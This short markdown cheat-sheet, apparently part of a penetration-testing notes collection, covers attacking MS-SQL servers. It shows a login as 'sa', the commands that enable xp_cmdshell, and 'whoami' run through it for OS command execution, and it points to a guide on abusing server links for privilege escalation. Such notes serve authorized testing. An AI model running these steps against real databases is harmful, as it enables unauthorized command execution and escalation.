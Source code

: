 # MS-SQL Databases

## Connecting to the Database

```
sqsh -S 192.168.0.6  -U sa
```

## User Creation

## xp\_cmdshell

```sql
1> exec sp_configure 'show advanced options', 1 
2> go 
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install. 
(return status = 0) 
1> reconfigure 
2> go 
1> exec sp_configure 'xp_cmdshell', 1 
2> go 
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install. 
(return status = 0) 
1> reconfigure 
2> go
```

```sql
1> exec master..xp_cmdshell 'whoami' 
2> go
```

## Server Links

The best reference for exploiting server links is [SQL Server – Link… Link… Link… and Shell: How to Hack Database Links in SQL Server!](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/).  They're not hard to pull off and can allow you to escalate your permissions quite easily.  However, do note that you should absolutely use rpc\_out if it's enabled.

Since OpenQuery can only satisfy user queries, stored procedures or user creation is not possible and makes your escalation path much more difficult.





